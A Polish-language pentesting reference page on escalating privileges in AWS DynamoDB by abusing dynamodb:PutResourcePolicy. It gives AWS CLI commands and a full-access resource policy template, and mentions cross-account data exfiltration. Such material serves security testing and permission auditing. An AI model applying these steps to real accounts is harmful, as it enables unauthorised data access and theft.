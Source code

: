 # AWS - DynamoDB Privesc

{{#include ../../../banners/hacktricks-training.md}}

## dynamodb

Aby uzyskać więcej informacji na temat dynamodb, sprawdź:

{{#ref}}
../aws-services/aws-dynamodb-enum.md
{{#endref}}

### `dynamodb:PutResourcePolicy`, a opcjonalnie `dynamodb:GetResourcePolicy`

Od marca 2024 roku AWS oferuje *polityki oparte na zasobach* dla DynamoDB ([AWS News](https://aws.amazon.com/about-aws/whats-new/2024/03/amazon-dynamodb-resource-based-policies/)).

Więc, jeśli masz `dynamodb:PutResourcePolicy` dla tabeli, możesz po prostu przyznać sobie lub innemu podmiotowi pełny dostęp do tabeli.

Przyznanie `dynamodb:PutResourcePolicy` losowemu podmiotowi często zdarza się przypadkowo, jeśli administratorzy myślą, że przyznanie `dynamodb:Put*` pozwoli tylko na dodawanie elementów do bazy danych - lub jeśli przyznali ten zestaw uprawnień przed marcem 2024...

Idealnie, powinieneś również mieć `dynamodb:GetResourcePolicy`, aby nie nadpisywać innych potencjalnie istotnych uprawnień, ale tylko wstrzykiwać dodatkowe uprawnienia, których potrzebujesz:
```bash
# get the current resource based policy (if it exists) and save it to a file
aws dynamodb get-resource-policy \
--resource-arn <table_arn> \
--query 'Policy' \
--output text > policy.json
```
Jeśli nie możesz pobrać bieżącej polityki, po prostu użyj tej, która przyznaje pełny dostęp do tabeli twojemu podmiotowi:
```json
{
"Version": "2012-10-17",
"Statement": [
{
"Sid": "FullAccessToDynamoDBTable",
"Effect": "Allow",
"Principal": {
"AWS": "arn:aws:iam::<ACCOUNT_ID>:<USER_OR_ROLE>/<USERNAME_OR_ROLENAME>"
},
"Action": [
"dynamodb:*"
],
"Resource": [
"arn:aws:dynamodb:<REGION>:<AWS_ACCOUNT_ID>:table/<TABLENAME>"
]
}
]
}
```
Jeśli musisz dostosować, oto lista wszystkich możliwych akcji DynamoDB: [AWS Documentation](https://docs.aws.amazon.com/amazondynamodb/latest/APIReference/API_Operations.html). A oto lista wszystkich akcji, które mogą być dozwolone za pomocą polityki opartej na zasobach *ORAZ które z nich mogą być używane między kontami (pomyśl o exfiltracji danych!)*: [AWS Documentation](https://docs.aws.amazon.com/amazondynamodb/latest/developerguide/rbac-iam-actions.html)

Teraz, mając dokument polityki `policy.json` gotowy, wprowadź politykę zasobów:
```bash
# put the new policy using the prepared policy file
# dynamodb does weirdly not allow a direct file upload
aws dynamodb put-resource-policy \
--resource-arn <table_arn> \
--policy "$(cat policy.json)"
```
Teraz powinieneś mieć potrzebne uprawnienia.

### Post Exploitation

Z tego co wiem, **nie ma innego bezpośredniego sposobu na eskalację uprawnień w AWS tylko poprzez posiadanie pewnych uprawnień do `dynamodb`**. Możesz **czytać wrażliwe** informacje z tabel (które mogą zawierać dane uwierzytelniające AWS) oraz **zapisywać informacje w tabelach** (co może wywołać inne podatności, takie jak wstrzykiwanie kodu lambda...), ale wszystkie te opcje są już uwzględnione na stronie **DynamoDB Post Exploitation**:

{{#ref}}
../aws-post-exploitation/aws-dynamodb-post-exploitation.md
{{#endref}}

### TODO: Czytaj dane, nadużywając strumieni danych

{{#include ../../../banners/hacktricks-training.md}}
